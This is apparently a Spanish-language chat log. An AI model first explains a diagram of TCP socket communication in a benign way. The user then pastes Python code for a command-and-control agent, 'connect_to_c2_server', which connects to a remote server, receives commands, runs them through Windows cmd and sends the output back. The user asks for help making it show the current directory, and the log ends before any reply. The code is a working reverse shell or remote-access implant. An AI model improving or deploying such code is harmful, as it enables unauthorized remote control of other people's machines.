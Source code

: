 ¿Quieres que lo relacione con código real en Python?

## Prompt:
en un parrafo

## Response:
La imagen muestra el proceso básico de comunicación entre un servidor y un cliente usando sockets en red. Primero, el servidor crea un socket, lo vincula a una dirección y puerto, se pone en escucha y espera conexiones. El cliente también crea un socket y se conecta al servidor, lo que completa el establecimiento de la conexión mediante un "3-way handshake". Una vez conectados, ambos pueden enviarse (`send()`) y recibir (`recv()`) datos. Cuando la comunicación termina, ambos lados cierran sus sockets con `close()`, también mediante un cierre ordenado con otro "3-way handshake". Es el flujo típico de una conexión TCP.

## Prompt:
como haría aquí para que siempre se muestre la ruta donde está: def connect_to_c2_server():
    agent_id = get_agent_id()  # Obtener el ID antes de conectarse
    if agent_id is None:
        print("Error: No se encontró el ID del agente.")
        return  
    try:
        agent_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        agent_socket.connect((SERVER_IP, SOCKET_PORT))
        print(f"Agente {agent_id} conectado al servidor.")
        agent_socket.send(str(agent_id).encode('utf-8')) # Enviar el ID del agente al servidor

        while True:
            command = agent_socket.recv(1024).decode('utf-8')
            if not command:
                    print("Servidor cerró la conexión.")
                    break
            if command.lower() == "exit":
                break
            if command:
                if command.split(" ")[0] == 'cd': # Cambiar de directorio de trabajo
                    try:
                        os.chdir(" ".join(command.split(" ")[1:]))
                        output = "{}".format(os.getcwd())
                    except FileNotFoundError:
                        output = "Error: Directorio no encontrado."
                    except Exception as e:
                        output = f"Error al cambiar de directorio: {e}"
                else:
                    # Ejecutar el comando y obtener el resultado
                    result = subprocess.run(['cmd', '/c', command], capture_output=True, text=True)
                    if result.stdout: # Si el comando produjo salida, enviarla
                        output = result.stdout
                    elif result.stderr:# Si el comando produjo error, enviarlo
                        output = result.stderr
                    else: # Si no hubo salida ni error, enviar un mensaje indicando que no hubo salida
                        output = "Comando ejecutado correctamente."
                agent_socket.send(output.encode('utf-8'))
        agent_socket.close()
    except Exception as e:
        print(f"Error al conectar al servidor: {e}")
